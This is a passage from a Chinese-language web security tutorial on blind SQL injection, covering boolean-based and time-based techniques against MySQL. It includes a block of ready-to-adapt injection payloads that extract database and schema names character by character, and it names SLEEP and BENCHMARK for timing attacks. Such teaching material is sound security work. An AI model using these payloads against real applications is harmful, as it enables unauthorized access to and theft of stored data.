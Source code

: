 #### 盲注场景

在许多情况下，通过前面的测试会发现页面没有回显提取的数据，但是根据语句是否执行成功与否会有一些相应的变化。

* 正确/错误的语句使得页面有适度的变化。可以尝试使用布尔注入
* 正确语句返回正常页面，错误的语句返回通用错误页面。可以尝试使用布尔注入。
* 提交错误语句，不影响页面的正常输出。建议尝试使用延时注入。

几种简单的判断语句，在真实利用中需要根据情况而变化:

* CASE
* IF\(\)
* IFNULL\(\)
* NULLIF\(\)

#### 布尔盲注-基于响应

提交一个逻辑判断语句，来推断一个个的信息位。由于注入需要（一般）一个个字符的进行，所以需要利用脚本，或者工具（比如burp suite）。以下是：

**payload**

```text
// i 用于提取每一个位，j 用于判断其对应的ASCII码值的范围。
// k ，结合limit，选择偏移为k的行
// **中可以填上其他的select语句，比如查询表名，列名，数据。一次类推。
// SUBSTR() 也可以换成 SUBSTRING()

' OR (SELECT ASCII(SUBSTR(DATABASE(),i,1) ) < j) #

' OR (SELECT ASCII(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) ) < j) #  

' OR (SELECT SUBSTR(DATABASE(),i,1) < j) #

' OR (SELECT SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j) #  

' OR SUBSTR((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT k,1),i,1) < j #

...
```

**脚本**

脚本利用，可见：[ctf盲注利用脚本](https://chybeta.github.io/2017/07/16/XMAN%E9%80%89%E6%8B%94%E8%B5%9B-2017-web-writeup/#CTF%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95) 要点：

* 注意编码问题
* 注意异常处理
* 注意边界处理

#### 延时盲注-基于时间

一般会用到几个函数。使用这些的效果，是为了延缓mysql的操作，从而检测到与平时有异的情况：

* SLEEP\(n\) 让mysql停n秒钟
* BENCHMARK\(count,expr\) 重复countTimes次执行表达式expr
